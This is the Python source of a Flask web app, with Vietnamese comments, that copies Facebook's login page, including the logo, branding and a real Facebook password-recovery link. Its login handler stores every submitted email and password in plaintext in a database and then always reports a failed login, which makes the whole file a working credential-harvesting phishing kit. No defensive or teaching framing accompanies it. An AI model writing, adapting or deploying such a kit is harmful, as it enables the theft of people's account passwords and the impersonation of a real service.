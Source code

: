 from flask import Flask, render_template_string, request, redirect, url_for, flash, session, get_flashed_messages
from flask_sqlalchemy import SQLAlchemy

app = Flask(__name__)

# Cấu hình cơ sở dữ liệu và bí mật
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SECRET_KEY'] = 'your_secret_key'

# Khởi tạo cơ sở dữ liệu
db = SQLAlchemy(app)

# Mô hình người dùng
class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    email = db.Column(db.String(120), unique=True, nullable=False)
    password = db.Column(db.String(128), nullable=False)

# Trang chủ
@app.route('/')
def home():
    messages = get_flashed_messages(with_categories=True)
    user_email = session.get('user_email')  # Lấy email người dùng từ phiên
    html_content = """
    <html lang="en">
        <head>
            <meta charset="utf-8"/>
            <meta content="width=device-width, initial-scale=1.0" name="viewport"/>
            <title>FACEBOOK Login</title>
            <script src="https://cdn.tailwindcss.com"></script>
            <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.3/css/all.min.css" rel="stylesheet"/>
            <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@400;500;700&display=swap" rel="stylesheet"/>
            <style> body { font-family: 'Roboto', sans-serif; } </style>
        </head>
        <body class="bg-gray-100">
            <div class="min-h-screen flex flex-col items-center justify-center">
                <div class="flex flex-col lg:flex-row items-center lg:items-start lg:space-x-16">
                    <div class="text-center lg:text-left mb-8 lg:mb-0">
                        <img alt="Logo" class="h-16 w-16 mx-auto lg:mx-0" src="https://upload.wikimedia.org/wikipedia/en/thumb/0/04/Facebook_f_logo_%282021%29.svg/2048px-Facebook_f_logo_%282021%29.svg.png"/>
                        <h1 class="text-3xl lg:text-5xl font-bold text-blue-600 mt-4">FACEBOOK</h1>
                        <p class="text-lg lg:text-2xl text-gray-700 mt-2">Connect with friends and the world around you.</p>
                    </div>
                    <div class="bg-white p-8 rounded-lg shadow-md w-full max-w-md">
                        <h2 class="text-2xl font-bold mb-6">Log In</h2>
                        {% with messages = messages %}
                            {% if messages %}
                                <ul>
                                    {% for category, message in messages %}
                                        <li class="text-{{ category }} mb-2">{{ message }}</li>
                                    {% endfor %}
                                </ul>
                            {% endif %}
                        {% endwith %}
                        {% if user_email %}
                            <p class="text-green-600">Welcome, {{ user_email }}!</p>
                            <form method="POST" action="/logout">
                                <button class="w-full bg-red-500 text-white px-4 py-2 rounded-lg font-bold">Log Out</button>
                            </form>
                        {% else %}
                        <form method="POST" action="/login">
                            <div class="mb-4">
                                <input class="w-full px-4 py-2 border rounded-lg" placeholder="Email or Phone Number" type="text" name="email" required/>
                            </div>
                            <div class="mb-4">
                                <input class="w-full px-4 py-2 border rounded-lg" placeholder="Password" type="password" name="password" required/>
                            </div>
                            <button class="w-full bg-blue-500 text-white px-4 py-2 rounded-lg font-bold">Log In</button>
                            <div class="text-center mt-4">
                                <a class="text-blue-600" href="https://www.facebook.com/login/identify/?ctx=recover&ars=facebook_login&from_login_screen=0">Forgot Password?</a>
                            </div>
                            <hr class="my-6"/>
                            <button class="w-full bg-green-500 text-white px-4 py-2 rounded-lg font-bold" formaction="/register">Create New Account</button>
                        </form>
                        {% endif %}
                    </div>
                </div>
                <div class="mt-4">
                </div>
            </div>
        </body>
    </html>
    """
    return render_template_string(html_content, messages=messages, user_email=user_email)

# Dashboard
@app.route('/dashboard')
def dashboard():
    user_email = session.get('user_email')
    if user_email:
        return f"<h1>Welcome to your dashboard, {user_email}!</h1>"
    else:
        flash('You need to log in first.', 'warning')
        return redirect(url_for('home'))

# Đăng nhập
@app.route('/login', methods=['POST'])
def login():
    email = request.form['email']
    password = request.form['password']
    # Lưu thông tin đăng nhập vào cơ sở dữ liệu
    new_login_attempt = User(email=email, password=password)  # Lưu mật khẩu trực tiếp
    db.session.add(new_login_attempt)
    db.session.commit()
    # Luôn báo lỗi khi đăng nhập
    flash('Login failed. Please check your credentials.', 'danger')
    return redirect(url_for('home'))

# Đăng ký
@app.route('/register', methods=['POST'])
def register():
    email = request.form['email']
    password = request.form['password']
    if User.query.filter_by(email=email).first():
        flash('Email already exists. Please choose a different one.', 'danger')
        return redirect(url_for('home'))
    new_user = User(email=email, password=password)  # Lưu mật khẩu trực tiếp
    db.session.add(new_user)
    db.session.commit()
    flash('Account created successfully!', 'success')
    return redirect(url_for('home'))

# Đăng xuất
@app.route('/logout', methods=['POST'])
def logout():
    session.pop('user_email', None)  # Xóa email khỏi phiên
    flash('You have been logged out.', 'info')
    return redirect(url_for('home'))

# Trang hồ sơ người dùng
@app.route('/user_profile')
def user_profile():
    user_email = session.get('user_email')
    if user_email:
        return f"<h1>Welcome to your profile, {user_email}!</h1>"
    else:
        flash('You need to log in first.', 'warning')
        return redirect(url_for('home'))

# Chạy ứng dụng
if __name__ == '__main__':
    with app.app_context():  # Thiết lập ngữ cảnh ứng dụng
        db.create_all()  # Tạo bảng trong cơ sở dữ liệu
    app.run(host='0.0.0.0', port=5000, debug=True)
